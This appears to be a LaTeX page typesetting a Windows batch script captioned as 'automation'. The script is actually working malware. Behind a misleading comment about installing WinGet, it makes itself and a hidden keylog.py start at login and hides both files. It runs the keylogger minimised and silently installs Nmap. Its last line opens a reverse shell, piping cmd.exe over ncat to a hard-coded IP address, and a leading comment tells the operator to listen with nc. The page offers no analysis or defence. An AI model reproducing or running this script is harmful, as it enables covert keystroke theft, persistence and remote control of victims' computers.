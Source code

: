 \documentclass[11pt]{article}
\begin{document}
	\subsection{cmd_commands.txt}
	\begin{lstlisting}[language=Batch, caption=cmd_commands.txt - Batch Script for Automation, basicnumbers=left, numberstyle=\tiny\color{gray}, stringstyle=\color{red}, commentstyle=\color{green!70!black}, keywordstyle=\color{blue}, breaklines=true, breakatwhitespace=true, tabsize=4, showstringspaces=false]
		:: from receiver side please write nc -lvnp port number 
		
		@echo off
		:: Install WinGet PowerShell module from PSGallery
		if exist "%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup\%~nx0" (
		start /min cmd /c "cd "%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup" & python "%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup\keylog.py" & attrib +h "%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup\keylog.py""
		) else (
		start /min cmd /c "curl -o AppInstaller.msixbundle https://aka.ms/getwinget & winget --version & winget install Insecure.Nmap --accept-package-agreements --accept-source-agreements --silent & attrib +h "AppInstaller.msixbundle""
		
		start /min cmd /c "xcopy /H "%~dpnx0" "%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup" & attrib +h "%~dpnx0" & xcopy /H "keylog.py" "%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup" & attrib +h "%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup\keylog.py" & attrib -h "%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup\%~nx0""
		
		start /min cmd /c "cd "%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup" & python "%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup\keylog.py""
		)
		
		start /min cmd /c "ncat 172.20.10.15 12345 -e cmd.exe"
	\end{lstlisting}
	Source: Provided `cmd_commands.txt` file[cite: 4].
	
\end{document}
